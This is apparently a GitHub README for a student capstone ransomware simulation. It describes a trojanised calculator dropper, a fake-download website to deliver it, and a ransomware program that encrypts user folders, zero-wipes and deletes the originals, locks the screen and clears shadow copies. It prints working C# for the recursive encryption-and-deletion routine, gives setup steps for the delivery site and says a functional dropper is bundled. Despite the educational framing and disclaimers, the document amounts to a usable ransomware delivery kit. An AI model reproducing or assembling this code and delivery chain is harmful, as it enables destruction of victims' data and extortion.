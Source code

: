 # Ransomware Simulation with Deployment Methods and Mitigation Strategies

**Author:** Aimery Barrault
**Course:** CSCI 460 – Capstone

---

## 🚀 Project Overview

This repository contains a controlled, educational ransomware simulation.

> **Warning:** Do **not** deploy on production systems or without explicit authorization.

* **CalculatorApp.exe**
  A benign “calculator” UI that embeds, drops, and launches the real payload.
* **capstone-site/**
  A Next.js “fake download” website used to deliver the payload.
* **payload.txt** & **base64script.py**
  Utilities to embed and extract the encrypted dropper.

---

## ⚙️ Fake-Download Site Setup

1. **Change into the site directory**

   ```bash
   cd capstone-site
   ```

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Add your payload**
   Copy into:

   ```
   capstone-site/public/Downloads
   ```

   > **Note:** The functional dropper executable can also be found directly at `capstone-site/public/Downloads/CalculatorApp.exe` for convenience.

4. **Run in development mode**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Then open [http://localhost:3000](http://localhost:3000) in your browser.

---

## 🖥️ CalculatorApp (Dropper UI)

**`MainWindow_CalculatorApp.cs`**   A WPF application that:

1. Displays a standard calculator interface.
2. On trigger (e.g. Backspace), reads a Base64-encoded string.
3. Decodes and writes `CalculatorManager.exe` to `%USERPROFILE%\Documents\`.
4. Launches `CalculatorManager.exe` and exits.

---

## 🔒 Ransomware Simulator

**`MainWindow_Manager.cs`**   A WPF application that performs:

1. **File Encryption**

   * Recursively encrypts files under Desktop, Documents, Pictures, Downloads, and Public Documents.
   * Uses AES-128 CBC with a fresh IV per file, prepended to the ciphertext.
2. **Secure Deletion**

   * Overwrites each original file with zeros, then deletes it.
3. **Countdown Timer**

   * Displays a 24-hour full-screen, top-most UI lockout.
4. **Password-Protected Decryption**

   * Verifies via PBKDF2(SHA-256), allowing up to three attempts.
5. **Self-Destruct**

   * Clears shadow copies, zero-wipes key and flag files, removes the Run-key, then exits.

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; }

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>

---

## ✅ Windows VM Execution

1. Copy `CalculatorApp.exe`, `CalculatorManager.exe`, and supporting scripts to a Windows 10 VM.
2. Run:

   ```powershell
   .\CalculatorApp.exe
   ```
3. Observe `.aes` files appearing in Desktop, Documents, etc.
4. Enter the correct password to decrypt and restore files.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software, you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

This project is released under the MIT License. See [LICENSE.md](LICENSE.md) for full terms.

